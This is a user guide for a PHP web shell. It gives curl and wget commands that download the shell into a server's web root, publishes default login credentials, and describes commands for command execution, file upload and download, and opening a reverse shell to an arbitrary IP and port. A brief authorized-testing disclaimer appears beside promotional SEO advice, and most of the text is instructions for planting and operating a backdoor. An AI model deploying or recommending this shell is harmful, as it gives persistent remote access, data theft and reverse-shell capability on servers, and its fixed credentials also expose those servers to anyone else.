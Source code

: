
# PHP SSH Shell - User Guide
The **php-shell** is a simple and user-friendly PHP web shell designed for penetration testing purposes. It allows users to execute shell commands on a server directly through a web interface, facilitating tasks such as command execution, file uploads, and downloads.

![PHP SSH Shell](https://r00t-shell.com/wp-content/uploads/2025/02/PHP-SSH-Shell.png "PHP SSH Shell")


### Username
```bash
admin
```
### Password
```bash
R00t
```

## Key Features ⚙️

- **Command Execution**: Run shell commands directly from the web interface.
- **File Management**: Upload and download files to and from the server.
- **Session Management**: Utilize command history navigation with arrow keys.

## How to Use php-shell 📜

### Download and Deployment 💻

To deploy `php-shell`, use `curl` or `wget` to download the `PHP-SSH-Shell.php` file to your server's web directory:

```bash
curl https://raw.githubusercontent.com/RootShelll/PHP-SSH-Shell/refs/heads/main/PHP-SSH-Shell.php -o /var/www/html/PHP-SSH-Shell.php
```

or

```bash
wget https://raw.githubusercontent.com/RootShelll/PHP-SSH-Shell/refs/heads/main/PHP-SSH-Shell.php -O /var/www/html/PHP-SSH-Shell.php
```

After downloading, access the shell via your web browser:  
**http://yourserver.com/PHP-SSH-Shell.php**

### Command Interface ⌨️

#### Executing Commands 🖥️

Type your desired shell command and press Enter to execute.

#### Navigating Command History 🔄

Use the Up and Down arrow keys to scroll through previous commands.

#### Special Commands 🔧

- `exit`: Logs out of the shell session.
- `cd [directory]`: Changes the current directory.
- `cls`: Clears the command output on the screen.
- `rshell [IP] [PORT]`: Initiates a reverse shell to the specified IP and port.
- `upload`: Prompts for a file to upload to the current directory.
- `download [file]`: Downloads the specified file from the server.

### Security Considerations 🔒

Deploying **php-shell** poses significant security risks, as it grants extensive access to the server. It is imperative to use this tool exclusively in controlled environments, such as during authorized penetration testing, and ensure it is removed immediately after use to prevent unauthorized access.

### SEO Optimization 🔍

To ensure the php-shell page is optimized for search engines:

- **Meta Tags**: Include relevant meta tags in the `<head>` section.
- **Header Tags**: Use appropriate header tags (`<h1>`, `<h2>`, etc.) to structure your content.
- **Alt Text for Images**: Provide descriptive alt text for images to improve accessibility and SEO.

## Comprehensive Usage Guide 🛠️

For users unfamiliar with web shells, **php-shell** serves as a web-based interface that allows you to execute shell commands on a server directly from your browser. This can be particularly useful for system administrators and developers who need to manage servers without direct terminal access.

### Step-by-Step Instructions 📝

#### Setup 🏗️

1. Download the `PHP-SSH-Shell.php` file to your server's web directory using `curl` or `wget`.
2. Ensure the web server has the necessary permissions to execute PHP scripts.

#### Accessing the Shell 🌐

Open your web browser and navigate to:  
**http://yourserver.com/PHP-SSH-Shell.php**

You will be presented with a command input field where you can enter your shell commands.

#### Executing Commands 🖱️

Type any valid shell command into the input field and press Enter. The output of the command will be displayed on the screen.

#### Uploading Files 📤

Type `upload` and press Enter. A file selection dialog will appear. Choose the file you wish to upload. The selected file will be uploaded to the current directory on the server.

#### Downloading Files 📥

Type `download [filename]` (replace `[filename]` with the actual file name) and press Enter. The specified file will be downloaded to your local machine.

---

### Login Form Example 🔑

```html
<div class="login-form">
    <h2>Shell login password</h2>
    <input type="text" value="admin">
    <input value="R00t" required>
</div>
```
![PHP SSH Shell](https://r00t-shell.com/wp-content/uploads/2025/02/PHP-SSH-Shell.png "PHP SSH Shell")
![PHP SSH Shell Login](https://r00t-shell.com/wp-content/uploads/2025/02/PHP-SSH-Shell-login-panel-1.png "PHP SSH Shell Login")

### License 📄

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
